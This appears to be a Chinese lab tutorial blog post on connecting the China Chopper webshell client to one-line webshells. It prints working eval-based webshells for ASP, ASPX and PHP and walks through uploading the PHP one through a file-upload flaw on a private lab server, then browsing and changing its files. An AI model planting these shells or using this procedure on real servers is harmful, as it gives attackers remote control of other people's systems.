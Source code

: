 ```yaml
---
title: 中国菜刀配合一句话木马基本使用
date: 2021-12-27 15:48:22
tags: 
- 木马
- 一句话
---
```


## 中国菜刀配合一句话木马基本使用

目的：
* 学习一句话木马
* 学习菜刀的使用

原理：
菜刀的主要功能是用来连接一句话木马的，asp、aspx、php的一句话菜刀都可以连，只是这几种一句话语句不一样。

* asp的一句话是：`<%eval request(“pass”)%>`

* aspx的一句话是：`<%@ Page Language=”Jscript”%><%eval(Request.Item["pass"],”unsafe”);%>`

* php的一句话是：`<?php @eval($_POST['pass']);?>`

过程：

* 打开火狐，http://192.168.1.3:8080/up，打开文件上传漏洞演示脚本，点击中国菜刀连接一句话木马![image-20211228105130236](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105130236.png)

* 点击浏览，上传php文件，木马地址为http://192.168.1.3:8080/up/images/lubr.php![image-20211228105156422](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105156422.png)

* 打开中国菜刀

* 添加木马地址，密码为lubr，脚本类型php(eval)![image-20211228105329855](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105329855.png)

* 添加到主界面![image-20211228105353101](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105353101.png)

* 右键文件管理，即可查看目标服务器的完整目录，也可进行创建文件，修改文件，修改和下载等相关操作![image-20211228105418680](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105418680.png)

* 右键单击浏览网站，即可实现浏览器功能，浏览该站点![image-20211228105439630](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105439630.png)



